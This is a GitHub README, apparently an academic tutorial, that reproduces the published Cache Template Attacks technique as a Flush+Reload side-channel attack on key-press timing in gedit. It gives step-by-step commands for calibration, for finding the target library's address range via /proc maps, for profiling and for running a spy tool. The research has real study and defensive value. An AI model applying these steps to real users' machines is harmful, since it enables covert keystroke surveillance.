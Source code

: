 # Cache Template Attacks

Cache Template Attacks are a generic attack technique, allowing to profile and **exploit cache-based information leakage of any program automatically**, without prior knowledge of specific software versions or even specific system information.

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper was presented by Gruss, Spreitzer and Mangard (USENIX Security 2015). The underlying cache attack used is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (USENIX Security 2014).

This repository is intended to be a **tutorial to perform a side-channel attack on key presses timing in text editors**. The attack is performed in three steps, that can be found in their respective folders.


-----
## One note before starting

The programs should work on x86-64 Intel CPUs, and **the examples of usage have been tested to run for gedit on Ubuntu 18.04**. The Cache Template Attacks technique is independent of the operating system. More OS specific version of the tools, as well as other tools, are provided in the [IAIK repository](https://github.com/IAIK/cache_template_attacks).

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.


-----
## Step #1: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose, in the **calibration folder**:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. 

Based on the histogram, your first task is to find a suitable threshold value.

**Note:** In the other two programs a constant ```MIN_CACHE_MISS_CYCLES``` is defined. Change it based on your threshold, if necessary.


-----
## Step #2: Key press profiling
In our example, we monitor well observable events like key presses on a text editor, e.g. gedit. You find the profiling tools in the **profiling folder**.

We first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep libgedit
7fe1cabb6000-7fe1cac8f000 r-xp 00000000 fd:01 6423718                    /usr/lib/x86_64-linux-gnu/gedit/libgedit.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). 

This line can directly be passed to the profiling tool in this step, where we create a template. This tool requires you to generate the events somehow. We want to profile key presses, so the simplest way to do it is to just **jam a key while the profiling tool is running**, and create a Cache Template showing which addresses react on this key press. 

Run the following commands to find keypress information leakage in gedit (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling
make
./profiling 200 7faec85f5000-7faec86cf000 r-xp 20000 fd:01 11930745                   /usr/lib/x86_64-linux-gnu/gedit/libgedit.so # in our example we profile keypresses in gedit
```

You are generally looking for addresses which have high peaks, like the following (done while pressing the key N in gedit):
```
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x242c0,   7
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24300,   4
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24340,   3
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24380,   7
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x243c0,  29
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24400,  32
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24440,  10
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24480,   9
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x244c0,  13
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24500,   8
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24540,   5
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24580,   8
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x245c0,  13
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24600,   6
```
The address 0x24400 had 32 cache hits during a probe duration of 200µs.

**Note down a few suitable addresses** with such high peaks. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. Out of scope of this tutorial, you can use libxdotool for this purpose. 



-----
## Step #3: Key presses

Switch to an already opened gedit window before ./spy is started, and try one of the addresses you noted down in step #2, by running the following lines:
```
cd exploitation
make
sleep 5; ./spy /usr/lib/x86_64-linux-gnu/gedit/libgedit.so <addr>
```


